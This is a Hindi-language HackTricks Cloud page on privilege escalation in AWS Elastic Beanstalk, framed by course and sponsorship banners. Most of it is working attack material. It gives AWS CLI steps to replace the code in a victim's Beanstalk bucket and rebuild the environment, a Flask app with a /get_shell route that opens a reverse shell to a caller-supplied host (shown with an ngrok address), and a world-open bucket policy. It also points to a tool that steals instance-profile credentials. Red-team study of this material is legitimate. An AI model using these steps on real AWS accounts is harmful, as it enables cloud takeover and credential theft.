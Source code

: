 # AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

**Elastic Beanstalk के बारे में अधिक जानकारी**:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beanstalk में संवेदनशील क्रियाएँ करने के लिए आपको **कई विभिन्न सेवाओं में बहुत सारी संवेदनशील अनुमतियाँ** होनी चाहिए। आप उदाहरण के लिए **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`** को दी गई अनुमतियों की जांच कर सकते हैं।
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3 लिखने की अनुमतियाँ और कई अन्य

**पर्यावरण के कोड** को रखने वाले **S3 बकेट** पर **लिखने की अनुमतियों** और एप्लिकेशन को **पुनर्निर्माण** करने की अनुमतियों (इसके लिए `elasticbeanstalk:RebuildEnvironment` और `S3`, `EC2` और `Cloudformation` से संबंधित कुछ और की आवश्यकता है) के साथ, आप **कोड** को **संशोधित** कर सकते हैं, **ऐप को पुनर्निर्माण** कर सकते हैं और अगली बार जब आप ऐप तक पहुँचेंगे, तो यह **आपके नए कोड को निष्पादित करेगा**, जिससे हमलावर को एप्लिकेशन और इसके IAM भूमिका क्रेडेंशियल्स को समझौता करने की अनुमति मिलती है।

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, और अधिक...

उल्लेखित और कई **`S3`**, **`EC2`, `cloudformation`**, **`autoscaling`** और **`elasticloadbalancing`** अनुमतियाँ एक कच्चा Elastic Beanstalk परिदृश्य बनाने के लिए आवश्यक हैं।

* एक AWS Elastic Beanstalk एप्लिकेशन बनाएं:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* एक AWS Elastic Beanstalk वातावरण बनाएँ ([**समर्थित प्लेटफ़ॉर्म**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

यदि एक वातावरण पहले से ही बनाया गया है और आप **नया नहीं बनाना चाहते**, तो आप बस **मौजूदा** को **अपडेट** कर सकते हैं।

* अपने एप्लिकेशन कोड और निर्भरताओं को एक ZIP फ़ाइल में पैकेज करें:
```python
zip -r MyApp.zip .
```
* ZIP फ़ाइल को S3 बकेट में अपलोड करें:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* एक AWS Elastic Beanstalk एप्लिकेशन संस्करण बनाएं:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* अपने AWS Elastic Beanstalk वातावरण में एप्लिकेशन संस्करण को तैनात करें:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

सबसे पहले, आपको **पीड़ित** में चलाने के लिए **कोड** के साथ एक **वैध Beanstalk वातावरण** बनाना होगा, जो **पिछले चरणों** का पालन करता है। संभावित रूप से इन **2 फ़ाइलों** को शामिल करने वाला एक साधारण **ज़िप**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

एक बार जब आपके पास **अपना खुद का Beanstalk env चल रहा हो** आपका rev shell, तो इसे **शिकार** के env में **स्थानांतरित** करने का समय है। ऐसा करने के लिए आपको अपने beanstalk S3 बकेट की **Bucket Policy** को **अपडेट** करना होगा ताकि **शिकार इसे एक्सेस कर सके** (ध्यान दें कि इससे **Bucket** **सभी के लिए** **खुल जाएगी**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
